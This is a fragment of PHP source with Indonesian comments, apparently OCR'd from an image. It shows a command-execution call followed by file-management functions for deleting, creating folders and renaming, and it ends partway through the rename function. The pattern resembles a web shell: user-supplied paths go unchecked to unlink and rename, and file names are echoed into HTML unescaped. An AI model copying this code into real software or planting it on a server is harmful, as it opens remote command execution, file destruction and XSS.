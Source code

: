     echo executeCommand($command);

}



// Fungsi untuk menghapus file

function delete_file($file) {

    if (file_exists($file)) {

        unlink($file);

        echo '<div class="alert alert-success">File berhasil dihapus: ' . $file . '</div>';

    } else {

        echo '<div class="alert alert-danger">File tidak ditemukan: ' . $file . '</div>';

    }

}



// Fungsi untuk membuat folder

function create_folder($folder_name) {

    if (!file_exists($folder_name)) {

        mkdir($folder_name);

        echo '<div class="alert alert-success">Folder berhasil dibuat: ' . $folder_name . '</div>';

    } else {

        echo '<div class="alert alert-warning">Folder sudah ada: ' . $folder_name . '</div>';

    }

}



// Fungsi untuk mengedit nama file

function rename_file($file, $new_name) {

    $dir = dirname($file);

    $new_file = $dir . '/' . $new_name;

    if (file_exists($file)) {

        if (!file_exists($new_file)) {

            rename($file, $new_file);

            echo '<div class="alert alert-success">File berhasil diubah nama menjadi: ' . $new_name . '</div>';

        } else {

            echo '<div class="alert alert-warning">File dengan nama yang sama sudah ada: ' . $new_name . '</div>';
